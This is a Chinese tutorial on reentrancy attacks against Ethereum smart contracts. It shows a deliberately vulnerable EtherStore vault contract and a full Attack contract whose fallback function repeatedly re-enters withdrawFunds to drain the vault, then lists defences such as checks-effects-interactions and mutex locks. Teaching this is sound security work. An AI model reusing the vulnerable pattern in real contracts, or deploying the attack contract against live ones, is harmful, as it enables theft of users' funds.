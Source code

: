 # 代码重入攻击

当以太坊智能合约将Ether发送给未知地址（地址来源于输入或是调用者）时就有能会受到代码重入攻击攻击。

攻击者可以在地址对应合约的Fallback函数中，构建一段恶意代码。当易受攻击的合约将Ether发送给攻击者构建的恶意合约地址时，将执行Fallback函数，执行恶意代码。恶意代码可以是重新进入易受攻击的合约的相关代码，这样攻击者可以重新进入易受攻击合约，执行一些开发人员不希望执行的合约逻辑。

下面的例子演示了合约EtherStore是如何受到代码重入攻击的，该合约充当以太坊保险库，允许存款人每周只提取1个Ether。
```js
EtherStore.sol：

contract EtherStore {

    uint256 public withdrawalLimit = 1 ether;

    mapping(address => uint256) public lastWithdrawTime;
    mapping(address => uint256) public balances;

    function depositFunds() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdrawFunds (uint256 _weiToWithdraw) public {
        // 发送者拥有的ether必须大于要撤回的ether余额
        require(balances[msg.sender] >= _weiToWithdraw);
        // 限制要撤回的ether余额必须小于1 ether
        require(_weiToWithdraw <= withdrawalLimit);
        // 限制之前一周没有发生过撤回操作
        require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
        // 向调用者地址转移指定数量的ether
        require(msg.sender.call.value(_weiToWithdraw)());
        // 减少调用者所对应地址的余额
        balances[msg.sender] -= _weiToWithdraw;
        // 更新调用者上次调用该函数的时间
        lastWithdrawTime[msg.sender] = now;
    }
 }
 ```

 该合约有两个公共职能： depositFunds() 和 withdrawFunds() 。


depositFunds函数的功能是增加发送者的余额，withdrawFunds函数的功能允许发送人指定要撤回的Ether的数量，并且如果所要求的退出金额小于1Ether并且在之前一周没有发生撤回操作，它才会成功。但是，当恶意攻击者，使用“重入漏洞”对合约进行攻击时，将不会按照合约创建者希望的逻辑进行执行。

漏洞出在这一行代码：require(msg.sender.call.value(_weiToWithdraw)());考虑下面这个恶意攻击者创建的攻击合约Attack.sol，攻击者可以利用攻击合约不按照规则进行Ether的提取撤回。

```js
import "EtherStore.sol";

contract Attack {
  EtherStore public etherStore;

  // 将etherStore合约地址作为参数进行初始化
  constructor(address _etherStoreAddress) {
      etherStore = EtherStore(_etherStoreAddress);
  }
  
  function pwnEtherStore() public payable {
      // 检查调用者的转账金额是否大于等于1 ether
      require(msg.value >= 1 ether);
      // 调用EtherStore合约的depositFunds()方法存入1 ether
      etherStore.depositFunds.value(1 ether)();
      // 调用EtherStore合约的withdrawFunds方法退回1 ether
      etherStore.withdrawFunds(1 ether);
  }
  
  function collectEther() public {
      msg.sender.transfer(this.balance);
  }

  // fallback function - where the magic happens
  function () payable {
      if (etherStore.balance > 1 ether) {
          etherStore.withdrawFunds(1 ether);
      }
  }
}
```

假设EtherStore.sol的合约地址是：0x01；Attack.sol的合约地址是：0x02；假设EtherStore.sol合约已经有用户使用过，并且将若干Ether存入了合约，并还没有进行撤回提取，将设当前合约的Ether余额是100ether。

攻击过程如下：

攻击者创建攻击合约，并执行构造函数，传入参数是以太坊保险库合约EtherStore对应的合约地址：0x1；

攻击者调用合约Attack（0x02），并存入若干Ether（大于1ether）；

攻击者调用合约Attack（0x02）的pwnEtherStore() 方法；

攻击者调用易受攻击合约EtherStore的depositFunds方法，并转入1ether；

攻击者调用EtherStore合约的withdrawFunds方法撤回1 ether；

此时 EtherStore 合约的检查都会通过；

```js
require(balances[msg.sender] >= _weiToWithdraw);
require(_weiToWithdraw <= withdrawalLimit);
require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
```

开始执行require(msg.sender.call.value(_weiToWithdraw)());像攻击者地址转移1 ether，符合最初设计目标。但是转账地址是合约账户，将会执行对应合约，也就是攻击者创建合约的fallback函数。

攻击者者合约Attack的fallback函数执行，检查余额发现是101（初始化100+EtherStore合约转账1），检查通过后继续调用EtherStore合约的withdrawFunds方法继续转移1 ether。

由于之前EtherStore合约没有调用balances[msg.sender] -= _weiToWithdraw;减少账户余额，导致仍然可以通过条件检查，继续转移ether。

重复5-8直到EtherStore合约中对应调用者地址的账户为1，不满足attack合约中fallback的判断条件为止。

最终的结果是，攻击者只用一笔交易，便立即从 EtherStore 合约中取出了（除去1个Ether以外）所有的 Ether。

当了解漏洞发生的原理以后就可以采取一些手段来预防漏洞的发生，有三种常用的预防技巧：

在将Ether发送给外部合约时使用内置的 transfer() 函数 。transfer转账功能只发送2300 gas给 不足以使目的地址/合约调用另一份合约（即重入发送合约）。
确保所有改变状态变量的逻辑发生在 Ether 被发送出合约（或任何外部调用）之前。在这个 EtherStore 例子中，EtherStore.sol应该首先改变合约转态再发送ether。将任何对未知地址执行外部调用的代码，放置在本地化函数或代码执行中作为最后一个操作，是一种很好的做法。这被称为检查效果交互（checks-effects-interactions） 模式。
引入互斥锁。也就是说，要添加一个在代码执行过程中锁定合约的状态变量，阻止重入调用。
这里�分析了短地址攻击和代码�重入攻击，更多的漏洞的例子可以通过Not So Smart Contracts查看，这是一个包含众多Solidity漏洞例子的项目。